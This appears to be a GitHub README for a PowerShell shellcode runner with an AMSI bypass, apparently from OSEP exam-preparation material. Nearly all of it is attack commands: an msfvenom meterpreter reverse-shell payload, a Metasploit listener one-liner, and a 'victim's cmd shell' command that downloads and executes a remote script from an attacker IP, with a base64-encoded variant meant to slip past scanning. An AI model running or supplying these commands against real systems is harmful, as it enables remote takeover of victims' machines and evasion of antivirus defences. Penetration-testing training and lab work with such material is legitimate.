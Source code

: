 # Name
Powershell ShellCode Runner with AMSI Bypass

## Usage
```
Change Line 1 in runall.ps1 to Kali's IP

Host Python Webserver on Kali 

Generate payload & put in line 44 of shellcoderunner.ps1
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell

Start Msfconsole listener
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"

In victim's cmd shell
    powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

OR encoded powershell command
    IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt 
    python b64_encode.py to_encode.txt 
    powershell -e <b64 payload>
```

## Source
https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI

